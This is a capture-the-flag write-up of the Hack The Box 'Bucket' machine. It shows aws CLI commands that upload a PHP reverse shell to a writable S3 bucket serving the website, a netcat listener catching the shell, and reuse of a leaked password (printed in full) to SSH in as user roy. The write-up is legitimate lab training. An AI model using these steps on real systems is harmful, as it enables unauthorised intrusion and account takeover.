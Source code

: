 # Foothold

Let's first check if we can create a bucket and upload a file to that bucket

```
aws --endpoint-url=http://s3.bucket.htb s3api create-bucket --bucket mine
aws --endpoint-url=http://s3.bucket.htb s3 ls
2020-11-01 18:40:04 adserver
2020-11-01 18:40:18 mine
```

As we can see there is two buckets, one that we just created and the other that probably hosts all of the images for the website.

Let's upload something

```
aws --endpoint-url http://s3.bucket.htb s3 cp rev.php s3://mine
upload: ./rev.php to s3://mine/rev.php
```

Let's check if the file exists

![{{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_184606.png]({{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_184606.png)

It does and we can download it. Not what we want but that's a start. 

I got stuck on that for a bit but then I tried to upload my reverse shell to the other bucket `adserver`

```
aws --endpoint-url http://s3.bucket.htb s3 cp rev.php s3://adserver
upload: ./rev.php to s3://adserver/rev.php
```

Now let's start a nc listener and check on that file

![{{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_185439.png]({{site.baseurl}}/assets/img/HackTheBox/Bucket/Screenshot_20201101_185439.png)

We got our foothold now let's get user on the machine

# Getting user

Let's first look at who is on the machine:

```
www-data@bucket:/$ ls /home
ls /home
roy
```

We only have one user. Now I just tried for good measure the passwords that we got from the table one by one and got lucky

Roy's password is: `n2vM-<_K_Q:.Aa2`. Connect to the server using ssh and you get the user flag

```
roy@bucket:~$ ls
project  user.txt
roy@bucket:~$ cat user.txt
a7.........................32
```
